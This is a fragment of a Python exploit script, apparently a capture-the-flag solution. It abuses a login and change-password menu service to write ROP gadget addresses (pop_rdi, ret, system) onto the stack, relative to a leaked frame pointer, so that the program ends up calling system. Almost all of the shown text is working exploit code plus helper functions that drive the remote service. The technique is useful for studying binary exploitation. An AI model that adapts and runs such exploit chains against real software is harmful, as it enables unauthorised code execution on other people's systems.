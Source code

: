 ```python
    change_pw(p64(pop_rdi))
    logout()
    print('2222222222222222222')

    login(b'Welcome!', p64(main_rbp + 8) + b'\x08')
    change_pw(p64(main_rbp + 0x10) + b'\x08')
    logout()

    login(b'admin', p64(0))
    change_pw(p64(main_rbp))
    logout()
    print('3333333333333333')

    login(b'Welcome!', p64(main_rbp+0x10) + b'\x08')
    change_pw(p64(main_rbp + 0x18) + b'\x08')
    logout()

    login(b'admin', p64(another_addr & 0xffffffffff00))
    change_pw(p64(ret))
    logout()
    print('4444444444444444444')

    login(b'Welcome!', p64(main_rbp + 0x18) + b'\x08')
    change_pw(p64(main_rbp + 0x20) + b'\x08')
    logout()

    login(b'admin', p64(0x100000000))
    change_pw(p64(system))
    logout()
    print('5555555555555555')

    login(b'Welcome!', p64(main_rbp + 0x20) + b'\x08')
    change_pw(p64(main_rbp-0xd90) + b'\x08')
    logout()
    print('7777777')



def replace(num):
    if num < 100:
        return num - 30
    else:
        return ((int)(num / 100) % 10) * 10 + (num % 100) - 30


def jjoin(uid, pw, email, age):
    global r
    r.sendlineafter(b'Choice : \r\n', b'1')
    r.sendlineafter(b'1. Id:\r\n', uid)
    r.sendlineafter(b'2. Pw:\r\n', pw)
    r.sendlineafter(b'3. Email:\r\n', email)
    r.sendlineafter(b'4. Age:\r\n', str(age).encode())

def login(uid, pw):
    global r
    r.sendlineafter(b'Choice : \r\n', b'2')
    r.sendlineafter(b'id:\r\n', uid)
    r.sendlineafter(b'pw:\r\n', pw)

def logout():
    global r
    r.sendlineafter(b'Choice : \r\n', b'1')

```